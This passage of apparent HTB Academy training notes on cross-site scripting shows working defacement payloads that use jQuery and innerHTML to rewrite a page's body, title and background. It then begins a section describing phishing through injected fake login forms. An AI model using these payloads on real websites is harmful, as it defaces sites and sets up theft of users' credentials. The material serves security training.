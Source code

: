 Using jQuery (if available):

```javascript
$("#todo").html("New Text")
```

To overwrite the entire page content:

```javascript
document.getElementsByTagName('body')[0].innerHTML = "New Text"
```

Here’s a complete HTML example you could inject:

```html
<center>
  <h1 style="color: white">Cyber Security Training</h1>
  <p style="color: white">
    by <img src="https://academy.hackthebox.com/images/logo-htb.svg" height="25px" alt="HTB Academy">
  </p>
</center>
```

Minified and injected with JavaScript:

```html
<script>document.getElementsByTagName('body')[0].innerHTML = '<center><h1 style="color: white">Cyber Security Training</h1><p style="color: white">by <img src="https://academy.hackthebox.com/images/logo-htb.svg" height="25px" alt="HTB Academy"></p></center>'</script>
```

---

### Final Example: Full Defacement Payloads

Using a combination of background, title, and text replacement:

```html
<div></div><ul class="list-unstyled" id="todo"><ul>
<script>document.body.style.background = "#141d2b"</script>
<script>document.title = 'HackTheBox Academy'</script>
<script>document.getElementsByTagName('body')[0].innerHTML = '...SNIP...'</script>
</ul></ul>
```

This works because our JavaScript is appended at the end of the page. If our injection point was in the middle of the page or source code, we’d need to account for other elements that follow. To regular users, the page now appears fully defaced.

## Phishing

### Introduction

A very common type of XSS attack is a phishing attack. Phishing attacks usually utilize legitimate-looking information to trick the victims into sending their sensitive information to the attacker. A common form of XSS phishing attacks is through injecting fake login forms that send the login details to the attacker's server, which may then be used to log in on behalf of the victim and gain control over their account and sensitive information.
